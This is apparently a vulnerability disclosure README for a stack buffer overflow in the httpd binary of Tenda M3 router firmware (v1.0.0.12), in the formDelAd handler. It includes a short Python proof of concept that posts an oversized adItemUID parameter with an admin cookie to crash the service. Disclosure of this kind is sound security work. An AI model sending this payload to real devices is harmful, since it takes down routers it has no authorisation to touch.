 # Tenda M3 contains Stack Buffer Overflow Vulnerability

## overview

- type: stack buffer overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a buffer overflow. The vunlerability is in fucntion `formDelAd` 

![image-20220819153517143](readme.assets/image-20220819153517143.png)

In this function, it copies POST parameter `adItemUID` to stack buffer `v6`

If `s` is too long, it will causes dos(deny of service)

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "adItemUID": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/delAd", data=data, cookies=cookies)
print(res.content)
```

![image-20220819153543318](readme.assets/image-20220819153543318.png)

![image-20220819153625861](readme.assets/image-20220819153625861.png)